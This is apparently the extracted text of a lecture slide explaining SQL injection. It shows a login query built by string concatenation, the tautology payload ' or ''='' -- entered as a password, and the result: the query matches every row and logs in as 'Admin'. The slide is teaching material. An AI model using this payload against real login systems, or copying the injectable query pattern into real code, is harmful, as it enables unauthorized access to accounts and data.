

# SQL Injection
select * from users where name='     ' AND pass='  '

name = "Bobby"
password = "' or ''='' --"
Username:
Bobby
' or ''='' --
Password:
(u'Admin', u'secret')
TRUE
select * from users where name='Bobby' AND pass='' or ''='' --'
Matches ALL rows
First happened to be “Admin”
A        AND     B   OR   1
comment
6